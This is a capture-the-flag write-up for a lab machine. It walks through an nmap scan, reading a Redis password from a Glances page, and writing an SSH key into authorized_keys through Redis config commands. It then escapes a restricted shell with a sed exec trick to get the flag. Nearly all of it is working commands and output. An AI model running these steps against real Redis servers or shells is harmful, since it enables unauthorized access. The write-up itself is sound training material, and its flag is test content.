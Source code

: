 # Writable (user)


Running nmap with `-sV -p1-65535` on the machine returns the following:

```
Starting Nmap 7.60 ( https://nmap.org ) at 2018-10-26 01:03 BST
Nmap scan report for 10.10.2.6
Host is up (0.030s latency).
Not shown: 65532 closed ports
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 7.6p1 Ubuntu 4 (Ubuntu Linux; protocol 2.0)
6379/tcp open  redis   Redis key-value store
8000/tcp open  http    WSGIServer 0.1 (Python 2.7.15rc1)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 52.25 seconds
```

Examining the service on port 8000 shows the program `glances`[1] running. This
shows a list of processes, but not in enough detail. Looking at the docs we can
see it has a way of showing all the options, which is the `/` command.

From this, we can see that the redis is being ran with:
```
su tom -c redis-server --bind 0.0.0.0 --requirepass redis_is_really_secure
```

So we can now access redis. 

```
10.10.2.6:6379> auth redis_is_really_secure
OK
10.10.2.6:6379> keys *
(empty list or set)
```

So we can see there is no keys, so we have to think of another way to exploit.

There is an article [2] by the author of Redis, showing you how to overwrite the
file authorized_keys to allow login via ssh.

A session exploiting this:

```
$ ssh-keygen
Generating public/private rsa key pair.                                       
Enter file in which to save the key (/home/a/.ssh/id_rsa): /tmp/example/id_rsa
Enter passphrase (empty for no passphrase):                                   
Enter same passphrase again:                                                  
Your identification has been saved in /tmp/example/id_rsa.                    
Your public key has been saved in /tmp/example/id_rsa.pub.                    
The key fingerprint is:                                                       
SHA256:QmcDfrvzlD5pXD3S9/a/imlPBF6ipk5bowP0SdrPodk a@b                   
The key's randomart image is:                                                 
+---[RSA 2048]----+                                                           
|      .          |                                                           
|     . .         |                                                           
|      o =  o .   |
|     o = oo +    |
|    . * So . +   |
|     o =oo .+ + .|
|      .oO++o o o.|
|      o++E*.+   o|
|       +..++.o.o*|
+----[SHA256]-----+
$ cat /tmp/example/id_rsa.pub | xsel --clipboard
$ redis-cli -h 10.10.2.6
10.10.2.6:6379> auth redis_is_really_secure
OK
10.10.2.6:6379> flushall
OK
10.10.2.6:6379> config set dir "/home/tom/.ssh/"
OK
10.10.2.6:6379> config set dbfilename "authorized_keys"
OK
10.10.2.6:6379> set x "\n\nssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQCafYcuD2EjCyIuAvH91VAcqvxpWiEhYXO0/OXXKNBoFTF1texYXWaQPAReMOm8SsPDEy9rbN27QCMbKHDqQWndf2plQVEAWd3T/2XvMiSqzFN9xyGInoNdee2aHJXtll2IR2EfmmMOfuRt1Bl7YWgLdMht6FjmvccNytPl3pKEd/A+vBW1E7+RY4Y+hVfjQ8QMet0HLoCwunBa7x/EZf7SioYLrrA8jnqUBJDJnGJqrBZ9NzLiGzcbMVS8oUS5NP3iyZ9BP3GBATKzQOF1CLocYXsy+JCBd/igy2TFuWYfh//cRzDglqrYqDbLraBdTUhEAsvZVe+Gtd+6ZP9vfjvh a@b\n\n"
10.10.2.6:6379> save
10.10.2.6:6379>
$ ssh tom@10.10.2.6 -i /tmp/example/id_rsa
Last login: Tue Oct 23 17:36:54 2018 from 10.10.254.1
tom@9f10564a2db5:~$ #w00tw00t
```

Now that we can login, we see that we are given a restricted shell.

When we look into what binaries we can run, we can see that we can use `ls` and
`sed`.

GTFOBins lists a way of abusing sed, but this needs to be modified to use the
full path of our shell as it isn't in our `PATH`.

```
tom@9f10564a2db5:~$ sed -n '1e exec /bin/sh 1>&0' /etc/hosts
$ /bin/cat user.txt
CTF{wait_ssh_can_still_read_that}
```

So we've got our flag.

## References

* [1] https://glances.readthedocs.io/en/latest/
* [2] http://antirez.com/news/96
* [3] https://gtfobins.github.io/gtfobins/sed/
